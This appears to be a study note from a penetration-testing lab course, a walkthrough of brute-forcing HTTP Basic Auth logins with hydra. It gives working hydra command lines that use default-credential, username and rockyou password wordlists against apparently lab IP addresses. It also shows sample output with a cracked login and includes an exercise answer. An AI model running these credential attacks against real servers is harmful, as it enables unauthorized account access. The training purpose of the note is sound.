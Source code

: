 # ☄️ Basic HTTP Auth Brute Forcing

To install hydra -> "`apt install hydra -y`" or download it and use it from its [Github Repository](https://github.com/vanhauser-thc/thc-hydra)

It's good to start with lists of default passwords such as `test:test,`if we could not find any working pairs, we would move to use separate wordlists

Good lists are from seclist in the `/usr/share/seclists/Passwords/Default-Credentials`

```shell-session
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

And the output will look something like that:

```shell-session
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

_**Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**_

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.50.83 -s 44054 http-get
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Credentials can also be separated by `usernames` and `passwords`. We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`.

### Username/Password Attack

{% hint style="info" %}
"-u" flag so that it tries all users on each password and goes faster
{% endhint %}

```
 hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

### Username Brute Force

we can brute force passwords for the `test` user by adding `-l test`

If we already found the password in the previous section, we may statically assign it with the "`-p`" flag, and only brute force for usernames that might use this password.

```shell-session
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

